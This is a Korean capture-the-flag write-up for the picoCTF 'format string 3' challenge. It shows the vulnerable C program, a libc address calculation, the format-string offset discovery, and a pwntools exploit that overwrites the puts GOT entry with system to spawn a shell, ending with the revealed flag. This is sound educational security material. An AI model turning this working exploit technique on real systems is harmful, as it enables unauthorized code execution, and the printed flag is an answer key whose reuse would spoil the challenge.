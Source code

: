 # [format string 3](https://play.picoctf.org/practice/challenge/449?category=6&originalEvent=73&page=1)
<br />

- [Description](#description)
- [Exploitation](#exploitation)
  * [1. system 주소 구하기](#1-system-주소-구하기)
  * [2. 메모리 유출로 오프셋 구하기](#2-메모리-유출로-오프셋-구하기)
  * [3. GOT 덮어쓰기](#3-got-덮어쓰기)
- [FLAG](#flag)
<br />

# Description
> This program doesn't contain a win function. How can you win?
<br />

**Source Code:**
```c
#include <stdio.h>

#define MAX_STRINGS 32

char *normal_string = "/bin/sh";

void setup() {
        setvbuf(stdin, NULL, _IONBF, 0);
        setvbuf(stdout, NULL, _IONBF, 0);
        setvbuf(stderr, NULL, _IONBF, 0);
}

void hello() {
        puts("Howdy gamers!");
        printf("Okay I'll be nice. Here's the address of setvbuf in libc: %p\n", &setvbuf);
}

int main() {
        char *all_strings[MAX_STRINGS] = {NULL};
        char buf[1024] = {'\0'};

        setup();
        hello();

        fgets(buf, 1024, stdin);
        printf(buf);

        puts(normal_string);

        return 0;
}
```
<br />

**Binary Protections:**
```yaml
format-string-3: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter./ld-linux-x86-64.so.2,
for GNU/Linux 3.2.0, BuildID[sha1]=54e1c4048a725df868e9a10dc975a46e8d8e5e92, not stripped

[*] '/home/kali/pico/format_string_3/format-string-3'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x3ff000)
    RUNPATH:    b'.'
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```
<br />

# Exploitation
문제에서 제공되는 정보 및 취약점을 취합해보면 다음과 같습니다.
```text
1. setvbuf 주소 제공
2. print(buf) 호출 -> FSB 취약점 발생
3. puts("/bin/sh")
4. Partial RELRO
```
취합된 정보를 토대로 공격 과정을 정리하면, 문제에서 제공되는 `setvbuf`의 주소를 통해 `system`의 실제 주소를 계산할 수 있습니다. 바이너리는 Partial RELRO 상태이므로 GOT 조작이 가능합니다. 또한 `print(buf)` 호출 시 FSB 취약점이 발생합니다. 따라서 해당 취약점을 활용하여 `puts`의 GOT 엔트리를 `system`의 주소로 덮어쓴다면, 이후 `puts(normal_string)` 호출이 `system("/bin/sh")`로 이어져 최종적으로 쉘을 획득할 수 있을 것입니다.
<br />
<br />

## 1. `system` 주소 구하기
```bash
$ readelf -s libc.so.6 | grep "setvbuf"
  1300: 000000000007a3f0   608 FUNC    WEAK   DEFAULT   16 setvbuf@@GLIBC_2.2.5
$ readelf -s libc.so.6 | grep "system"
  1511: 000000000004f760    45 FUNC    WEAK   DEFAULT   16 system@@GLIBC_2.2.5
```
위 오프셋을 가지고 `libc_base`, `system` 주소를 계산할 수 있습니다.

```python
from pwn import *

p = process("./format-string-3")

p.recvuntil(b"0x")

libc_base = int(p.recv(14), 16) - 0x7a3f0
libc_system = libc_base + 0x4f760
log.info(f"libc_base: {libc_base: #x}")
log.info(f"libc_system: {libc_system: #x}")

p.interactive()
```
```bash
$ python3 test.py
[+] Starting local process '/home/kali/pico/format_string_3/format-string-3': pid 1111
[*] libc_base:  0x7f255443a000
[*] libc_system:  0x7f2554489760
[*] Switching to interactive mode
$
```
<br />

## 2. 메모리 유출로 오프셋 구하기
```bash
$ ./format-string-3
Howdy gamers!
Okay I'll be nice. Here's the address of setvbuf in libc: 0x7fad387c23f0
AAAAAAAA%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p
AAAAAAAA0x7fad38920963|0xfbad208b|0x7fffc740cbb0|0x1|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|0x4141414141414141
/bin/sh
```
`AAAAAAAA`의 오프셋은 파이썬으로 자동화하여 다음과 같이 구할 수 있습니다.
```python
data = ("AAAAAAAA0x7fad38920963|0xfbad208b|0x7fffc740cbb0|0x1|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|0x4141414141414141")
data = data.split("|")

target = "0x4141414141414141"

if target in data:
    idx = data.index(target)
    print(f"offset: {idx+1}")
```
```bash
$ python3 test.py
offset: 38
```
<br />

## 3. GOT 덮어쓰기
```yaml
pwndbg> got
Filtering out read-only entries (display them with -r or --show-readonly)

State of the GOT of /home/kali/pico/format_string_3/format-string-3:
GOT protection: Partial RELRO | Found 4 GOT entries passing the filter
[0x404018] puts@GLIBC_2.2.5 -> 0x401030 ◂— endbr64
...
```
pwndbg로 확인할 결과 puts의 GOT 주소는 `0x404018`입니다. 위에서 획득환 정보를 가지고 페이로드를 작성할 수 있습니다.

```python
from pwn import *

context.arch = "amd64"

p = process("./format-string-3")
# p = remote("rhea.picoctf.net", 51563)

p.recvuntil(b"0x")

libc_base = int(p.recv(14), 16) - 0x7a3f0
libc_system = libc_base + 0x4f760
log.info(f"libc_base: {libc_base: #x}")
log.info(f"libc_system: {libc_system: #x}")

pay = fmtstr_payload(38, {0x404018:libc_system})

p.send(pay)
p.interactive()
```
```bash
$ python3 test.py
[+] Starting local process './format-string-3': pid 1336
[*] libc_base:  0x7f89a0dd4000
[*] libc_system:  0x7f89a0e23760
[*] Switching to interactive mode
$
                                                                                               c                              \x8b         \xf0                      \x01                                                                 \x00                                                                                    \x00aaaaba\x18@@$
$ pwd
/home/kali/pico/format_string_3
```
<br />

# FLAG
```bash
$ python3 test.py
[+] Opening connection to rhea.picoctf.net on port 51563: Done
[*] libc_base:  0x7a9afecb0000
[*] libc_system:  0x7a9afecff760
[*] Switching to interactive mode
$
                                                                                               c                         \x8b                                                                                    \x01                                       \x00      \x00aaaabaa\x18@@$
$ ls
Makefile
artifacts.tar.gz
flag.txt
format-string-3
format-string-3.c
ld-linux-x86-64.so.2
libc.so.6
metadata.json
profile
$ cat flag.txt
picoCTF{G07_G07?_7a2369d3}$
```
